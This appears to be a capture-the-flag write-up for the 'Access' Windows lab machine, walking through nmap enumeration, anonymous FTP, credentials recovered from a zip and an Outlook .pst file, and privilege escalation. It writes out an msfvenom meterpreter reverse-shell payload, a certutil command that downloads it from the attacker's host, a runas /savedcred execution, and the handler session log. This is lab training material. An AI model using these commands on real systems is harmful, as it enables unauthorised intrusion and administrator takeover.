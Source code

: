 # Access
### Info:
OS: Windows x64 <br>
IP: 10.10.10.98 <br>
Difficulty : Medium <br>
### Enumeration:

```nmap -sC -sV -oA nmap 10.10.10.98``` <br>

gives us the results : <br>

```
# Nmap 7.70 scan initiated Fri Jan 11 00:04:59 2019 as: nmap -sC -sV -oA nmap 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.36s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We trying accessing ftp with user : `anonymous` and password: ` ` which gives us access.

### Exploitation:
We see 2 folders `Backups` and `Engineer`, Backups give us the password : <b> access4u@security </b> <br> 
which is used to open zip inside Engineer folder. This leads us to a <b>.pst </b> file <br> 
which we open inside MS Outlook and we get :
```
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
```
Using this information we get telnet access and get the access to user: `security`

### Privilege Escaltion:
As we see port 80 is open, therefore we create a SimpleHTTPServer on our machine as :
```
python -m SimpleHTTPServer 8080 10.10.16.16
```
Now with msfvenom we create our payload as: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=myip LPORT=4444 -f exe-only > trojan.exe
```
and keep it in same folder at our local machine. <br>
Now we download this payload on the box via:
```
certutil -urlcache -split -f http://myip:8080/trojan.exe
```
We ran the payload as `administrator` and the creds were used from default files i.e `/savedcreds`:
```
runas /user:Administrator /savedcred "trojan.exe"
```
Meanwhile we use msfconsole as:
```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > set LHOST myip
LHOST => myip
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on myip:4444 
[*] Sending stage (206403 bytes) to 10.10.10.98
[*] Meterpreter session 1 opened (myip:4444 -> 10.10.10.98:49180) at 2019-01-11 20:19:17 +0530

meterpreter > shell
Process 1668 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
and the root is owned!

### Things learned:

Using local server to send files in same VPN.

Windows x64 privilege escalation.

Using Outlook for .pst files.
